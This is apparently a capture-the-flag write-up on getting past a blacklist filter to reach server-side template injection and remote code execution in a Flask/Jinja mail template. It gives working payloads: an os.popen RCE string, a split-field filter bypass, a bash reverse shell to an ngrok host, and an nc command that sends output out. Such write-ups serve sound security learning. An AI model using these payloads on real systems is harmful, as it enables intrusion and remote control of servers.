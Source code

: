 ```yaml
---
layout: default
title: Blind-SSTI-Filters-Bypass
---
```


In this challenge we need to exploit `SSTI` to achieve `RCE`.

As we can see, this is how the data is getting inserted to the template:
```py
mail = """
Hello team,

A new hacker wants to join our private Bug bounty program! Mary, can you schedule an interview?

 - Name: {{ hacker_name }}
 - Surname: {{ hacker_surname }}
 - Email: {{ hacker_email }}
 - Birth date: {{ hacker_bday }}

I'm sending you the details of the application in the attached CSV file:

 - '{{ hacker_name }}{{ hacker_surname }}{{ hacker_email }}{{ hacker_bday }}.csv'

Best regards,
"""
```

However, there is this `sanitize` function:
```py
def sanitize(value):
    blacklist = ['{{','}}','{ %','% }','import','eval','builtins','class','[',']']
    for word in blacklist:
        if word in value:
            value = value.replace(word,'')
    if any([bool(w in value) for w in blacklist]):
        value = sanitize(value)
    return value
```

And also this length limitation:
```py
if len(request.form["name"]) > 20:
    return render_template("index.html", error="Field 'name' is too long.")
if len(request.form["surname"]) >= 50:
    return render_template("index.html", error="Field 'surname' is too long.")
if len(request.form["email"]) >= 50:
    return render_template("index.html", error="Field 'email' is too long.")
if len(request.form["bday"]) > 10:
    return render_template("index.html", error="Field 'bday' is too long.")
```

The main problem here is that we can't send `{{` or `}}`, and same for `{%` and `%}`.
In such case, there is no way to get `SSTI`. 

Is it?
We can see this line in the mail that is being sent:
```py
 - '{{ hacker_name }}{{ hacker_surname }}{{ hacker_email }}{{ hacker_bday }}.csv'
```

What will happen if we'll give this for example:
```py
hacker_name = '{'
hacker_surname = '{ 7*7 '
hacker_email = '}'
hacker_bday = '}'
```

When testing locally, we're getting `SSTI`!

Okay, i went to [PayloadAllTheThings SSTI Python](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md), and got this line:
```py
{{ cycler.__init__.__globals__.os.popen('id').read() }}
```

Let's check for `Blind RCE`, like giving `sleep 10`, Notice we must divide it to the `surname` and `email`, because each one can contain up to 50 chars.

This will be our payload:
```py
name={&surname={cycler.__init__.__globals__.os.popen('sleep+10&email=').read()}&bday=}
```

As you can see, it takes 10 seconds until we get response

![sleep PoC](./images/Blind-SSTI-Filters-Bypass_sleep_PoC.png)

Now we just need to get our reverse shell, and find the flag.

However, for somehow i didn't manage to get that, even simple `nc` not working for me, and this is the same for other challenges on this platform, don't know why.

Any way, the payload for the reverse shell will be:
```
sh -i >& /dev/tcp/2.tcp.eu.ngrok.io/17645 0>&1
```

And the final payload (which working fine for me when running the challenge locally...)

```
name={&surname={cycler.__init__.__globals__.os.popen('echo 1337&email=|+nc+5.tcp.eu.ngrok.io+13190').read()}&bday=}
```
so, surname = `{cycler.__init__.__globals__.os.popen('echo 1337`, email = `| nc 5.tcp.eu.ngrok.io 13190').read()}`.

![local RCE](./images/Blind-SSTI-Filters-Bypass_local_RCE.png)

I need to send this to the challenge, and get the data, but it doesn't work :| 

**Flag:** ***`PLACE_HOLDER`***
